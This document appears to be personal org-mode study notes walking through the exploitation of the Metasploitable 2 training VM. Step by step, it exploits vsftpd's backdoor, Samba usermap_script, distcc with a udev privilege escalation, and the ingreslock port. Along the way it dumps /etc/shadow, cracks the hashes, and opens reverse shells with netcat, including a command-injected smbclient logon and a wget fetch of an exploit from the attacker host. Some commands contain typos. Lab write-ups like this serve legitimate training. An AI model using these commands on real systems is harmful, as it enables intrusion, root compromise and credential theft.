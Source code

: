 #+TAGS: sec ctf


* Vuln Boxes
* Boxes
** Metasploitable
** Metasploitable 2
*** Walk Through with RWB on youtube
https://www.youtube.com/watch?v=JGUoOotVXNQ
**** Enumeration
- netdiscover
#+BEGIN_SRC sh
netdiscover -r 192.168.56.0/24
#+END_SRC

- nmap of results from above
#+BEGIN_SRC sh
nmap -sV -p-65535 192.168.56.102
#+END_SRC

- open port 21 - decides to use telnet to confirm service
#+BEGIN_SRC sh
telent 192.168.0.102 21
#+END_SRC

- nmap udp scan
#+BEGIN_SRC sh
nmap -sU 192.168.0.102
#+END_SRC

**** Telnet
Setting up wireshark to capture a telnet session login will allow the password to be caught.
To view the session right click the packet in wire shack and slect follow tcp stream.

**** VSFTP
First determine the version, and then research known exploits

- Using metasploit 
does metasploit have any exploits for vsftp
> search vsftp
> use exploit/unix/ftp/vsftpd_234_backdoor
> set rhost 192.168.0.102
> exploit
no prompt to acknowledge the shell
- use the shell access to view /etc/passwd and /etc/shadow to grab users and password hashes
  
hash-identifier - this can be used on the found hashes to id the hash type

Johnny - jtr gui
  - create a file of the user and hases - uesr:hash*$ksjflsQ
    
- Using Manual Exploit
The above exploit can be performed manually
> ftp 192.168.0.102
Name (192.168.56.102:root): a:)

The above has created a backdoor on port 6200
Use netcat to access the backdoor
> nc -vvn 192.168.0.56.102 6200

this will provide root shell

**** Samba
nmap shows that samba is running on 139 and 445
  
using metasploit aux module
> use auxiliary/scanner/smb/smb_version
> set rhosts 192.168.56.102
> run
this should return the version if available

- using metasploit
> search samba
> use exploit/multi/samba/usermap_script
> set rhost 192.168.56.102
> exploit
this should create a shell on the machone if it's vulnerable

- manually
using smbclient - similar in acton as ftp client
> smbclient //metasploitable/tmp
this should provide an anonymous user smb shell
on the host machine use netcat to set up a listner
> nc -lvnp 4444
on the smb shell
> logon "/=`nc 192.168.56.101 4444 -e /bin/bash`"
should now have a shell connected to the listner

**** DISTCC (Distributed C code across serveral machines on a network for compilation)
Exploits used
http://www.exploit-db.com/exploits/9915
https://www.exploit-db.com/exploits/8572/

nmap shows that dsitccd is running on port 3632 and the version is v1

nmap nse script for distcc version
#+BEGIN_SRC sh
nmap -p 3632 192.168.56.102 --script=distcc-cve2004-2687 --script-agree="distcc-cve2004-2687.cmd='uname -a'"
#+END_SRC
this should return the output of the cmd

- using metasploit
> search distcc
> use exploit/unix/misc/distcc_exec
> set rhost 192.168.56.102
> exploit
Unlike above this will create an interactive shell, not just a single cmd
using ps you can find if there is any other vectors to exploit
on this machine there is a udev exploit available
using searchsploit you can then check if udev has any know exploits
> searchsploit udev
this brings back an exploit linux/local/8572.c
this needs to be put on the targets machine
This can be done by hosting the file on apache
> service apache2 start
> cp /usr/share/exploitdb/platforms/linux/local/8572.c /var/www/html
now on the target use wget to pull the file
> cd /tmp
> wget 192.168.56.101/8572.c -O msp2.c
> touch run
> echo '#!/bin/sh' > run
> echo '/bin/netcat -e /bin/sh 192.168.56.101 5555' >> run
> gcc msp2.c -o msp2
> cat /proc/net/netlink
note the pid (2344)
on host run netcat listner
> nc -lvnp 5555
on target
> chmod +x msp2 
> ./msp2 2344
Should now have a root shell on the netcat listner

**** IngresLock Vuln
Simple vuln that only requires telnet
> telnet 192.168.56.102 1524
that is it, should now have a root shell

* Lecture
* Tutorial
* Books
* Links
